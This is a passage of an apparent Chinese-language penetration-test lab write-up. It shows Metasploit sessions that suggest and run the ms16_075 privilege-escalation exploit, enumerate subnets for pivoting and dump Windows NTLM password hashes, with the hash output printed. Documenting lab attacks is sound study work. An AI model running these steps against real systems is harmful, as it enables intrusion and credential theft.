 ```bash
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit 
```

ms16_075 提权：

```bash
msf6 post(multi/recon/local_exploit_suggester) >use exploit/windows/local/ms16_075_reflection_juicy
[-] Unknown command: exploit/windows/local/ms16_075_reflection_juicy
This is a module we can load. Do you want to use exploit/windows/local/ms16_075_reflection_juicy? [y/N]   y
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set session 1
session => 1
msf6 exploit(windows/local/ms16_075_reflection_juicy) > exploit 
```

<img src=".\图片\Snipaste_2023-05-09_11-29-41.png" alt="Snipaste_2023-05-09_11-29-41"  />

# 第二台数据库

## 信息收集（已攻陷主机）

查看网卡信息 ：ipconfig，发现 2 个网段

```bash
IPv4 ��ַ . . . . . . . . . . . . : 192.168.0.134
IPv4 ��ַ . . . . . . . . . . . . : 10.10.10.131
```

meterpreter查看网段：`meterpreter > run get_local_subnets`

```bash
Local subnet: 10.10.10.0/255.255.255.0
Local subnet: 192.168.0.0/255.255.255.0
```

哈希获取：

```bash
meterpreter > run post/windows/gather/smart_hashdump
```

```
[+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:1c933df09b600efabee0791aaccc43f2:::
[+]     MySQL_HWS:1001:aad3b435b51404eeaad3b435b51404ee:6a75a75e4cfd3cf00faf743e17e90a53:::
[+]     PhpMyAdmin_HWS:1002:aad3b435b51404eeaad3b435b51404ee:a14b615c584d6b043f42f1cfab9779cd:::
[+]     huweishen542147:1004:aad3b435b51404eeaad3b435b51404ee:c76eea2615348c5228f7027d3ccab02d:::
[+]     cc123:1005:aad3b435b51404eeaad3b435b51404ee:afdeb425b4a55982deb4e80fa3387576:::
[+]     newcc123:1007:aad3b435b51404eeaad3b435b51404ee:97824315153b4dd665d6c688f446ebf1:::
[+]     ww2cc123:1008:aad3b435b51404eeaad3b435b51404ee:adadf2dd832421c26a96705fd09a32bd:::
```
